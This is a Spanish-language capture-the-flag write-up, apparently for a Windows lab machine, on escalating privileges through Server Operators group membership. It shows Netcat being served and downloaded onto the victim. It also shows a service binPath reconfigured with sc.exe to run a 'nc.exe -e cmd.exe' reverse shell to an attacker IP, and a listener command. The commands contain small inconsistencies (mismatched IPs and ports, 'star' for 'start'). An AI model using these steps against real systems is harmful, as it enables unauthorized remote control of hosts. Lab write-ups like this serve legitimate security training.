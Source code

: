#serveroperatorsgroup


------
Usamos [[whoami]] con el comando `whoami /all` para ver todos los permisos que tiene nuestro usuario y vemos el 


![[Return31.png]]
Vamos a guiarnos con este [articulo](https://www-hackingarticles-in.translate.goog/windows-privilege-escalation-server-operator-group/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es) para hacer la escalada

Tambien con [[net user]] usando el comando `net user svc-printer` podemos mostrar los detalles del acuenta
![[Return24.png]]

Ahora con el comando [[services]] vamos a enumerar todos los ervicios de windows instalados en la amquina
![[Return25.png]]

Ahora vamos a pasarnos el [[Netcat]] levantando un servidor desde nuestra maquina de atacante con [[python3 -m http.server]] usando el comando `python3 -m http.server 80`

![[Return27.png]]
Ahora con [[cd]] vamos a usar `cd C:\` y luego vamos a crear con [[mkdir]] usando el comando `mkdir temp`  y luego encontramos con `cd temp`.  Esto lo hacemos para estar en una carpeta que no vayamos a tener ningun problema con los permisos
Con [[wget]] vamos a descargarlo desde la maquina victima con el coando `wget http://10.10.16.69/nc64.exe -outfile nc64.exe`


![[Return26.png]]
Ahora vamos a ejecutar las instrucciones que nos da el articulo para enviarnos una [[Reverse shell]] mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]]
La idea es que configuremos el servicio de vm para que ejecute la accion de la [[Reverse shell]] y a posteriori reiniciamos el servicio asi se ejecuta nuesstra nueva instruccion

```
sc.exe config VMTools binPath= "C:\temp\nc.exe -e cmd.exe 192.168.1.205 1234"           /Cargamos la configuracion
sc.exe stop VMTools        /Paramos el servicio
sc.exe star VMTools        /Volvemos a iniciar el servicio
```
![[Return28.png]]

![[Return29.png]]
Y listo ya somos root y podemos catear las flags

![[Return32.png]]
![[Return30.png]]
